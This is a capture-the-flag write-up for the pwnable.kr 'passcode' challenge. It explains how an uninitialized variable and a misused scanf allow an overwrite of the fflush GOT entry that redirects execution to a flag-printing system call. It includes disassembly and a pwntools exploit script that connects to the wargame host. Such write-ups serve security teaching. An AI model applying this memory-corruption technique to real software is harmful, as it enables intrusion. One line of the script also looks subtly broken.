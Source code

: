 We have a buffer of size 100, and the same addresses are going to be reused when the program will call ``login``, so the 4 last bytes will be the value for the uninitialized ``passcode1``. This let us choose the value of this variable.
Moreover, ``scanf`` is misused: ``scanf("%d", passcode1);``: as long as we control ``passcode1``, we can write data to arbitrary locations in memory through this scanf.
We are going to use it to modify the ``fflush`` GOT entry. By doing so, next time ``fflush`` will be called, it will jump to an address chosen by us.
When we open the ELF with a disassembler, we find :

```
0x080485d7      c70424a58704   mov dword [esp], str.Login_OK_      
0x080485de      e86dfeffff     call sym.imp.puts               
0x080485e3      c70424af8704   mov dword [esp], str._bin_cat_flag 
0x080485ea      e871feffff     call sym.imp.system                 
```


```python
from pwn import *
elf = ELF("passcode")

bincatflag_str = list(elf.search("/bin"))[0]
catflag_instr  = list(elf.search(asm("mov dword ptr [esp], "+str(bincatflag_str))))[0]

payload1 = ("A"*96)+p32(elf.got["fflush"])
payload2 = str(catflag_instr[0])

shell = ssh("passcode", "pwnable.kr", password="guest", port=2222)
p = shell.process("./passcode")
p.recvuntil("name : ")
p.sendline(payload1)
p.recvuntil("passcode1 : ")
p.sendline(payload2)
p.interactive()
```
